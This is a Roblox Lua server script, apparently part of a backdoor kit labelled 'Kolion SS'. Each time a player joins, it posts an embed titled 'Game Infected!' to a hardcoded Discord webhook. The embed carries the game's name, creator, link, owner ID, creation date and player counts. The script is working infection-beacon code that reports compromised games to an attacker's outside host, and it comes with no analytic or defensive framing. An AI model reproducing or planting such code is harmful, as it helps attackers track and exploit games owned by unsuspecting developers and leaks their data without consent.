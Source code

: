 if game:GetService("HttpService").HttpEnabled then
	local HttpService = game:GetService("HttpService")
	local Players = game:GetService("Players")
	local MarketplaceService = game:GetService("MarketplaceService")

	local webhookUrl = "https://discord.com/api/webhooks/1420520161517113356/v4Z0IlORt2pkV3-HNdh7mq2VxclhU2h3gcmZBTYAZ517IMy1dqTHbN-esNQ5hz8EHL9J"
	local function formatDate(isoDateString)
		local datePart = isoDateString:match("^(%d%d%d%d%-%d%d%-%d%d)")
		return datePart or isoDateString
	end

	local function sendWebhook(player)
		local success, gameInfo = pcall(function()
			return MarketplaceService:GetProductInfo(game.PlaceId)
		end)
		if not success then
			warn("Failed to get game info: " .. tostring(gameInfo))
			return
		end

		local activePlayers = #Players:GetPlayers()
		local visitedPlayers = gameInfo.TotalVisits or 0

		local iconUrl = "https://www.roblox.com/asset-thumbnail/image?assetId=" .. tostring(game.PlaceId) .. "&width=150&height=150&format=png"
		local MaxPlr = game.Players.MaxPlayers

		local data = {
			username = "Kolion SS ❤‍🔥 ",
			embeds = {{
				title = "Game Infected!";
				fields = {
					{name = "> Game", value = "-> "..gameInfo.Name, inline = true},
					{name = "> Creator", value = "-> "..(gameInfo.Creator and gameInfo.Creator.Name) or "Unknown", inline = true},
					{name = "> Game Link", value = "-> ".."https://www.roblox.com/games/"..game.PlaceId, inline = false},
					{name = "> Created On", value = "-> "..formatDate(gameInfo.Created), inline = true},
					{name = "> Active Players", value = "-> "..tostring(activePlayers), inline = true},
					{name = "> Max Player", value = "-> "..tostring(activePlayers).."/"..MaxPlr, inline = true},
					{name = "> Owner ID", value = "-> "..game.CreatorId, inline = true},
				},
				footer = {
					text = "__Kolion Bot",
				},
				timestamp = os.date("!%Y-%m-%dT%H:%M:%SZ")
			}}
		}

		local jsonData = HttpService:JSONEncode(data)

		local ok, err = pcall(function()
			HttpService:PostAsync(webhookUrl, jsonData, Enum.HttpContentType.ApplicationJson)
		end)

		if not ok then
			warn("Failed to send webhook: " .. tostring(err))
		end
	end

	Players.PlayerAdded:Connect(function(player)
		sendWebhook(player)
	end)
else
	return warn("pls enable http")
end
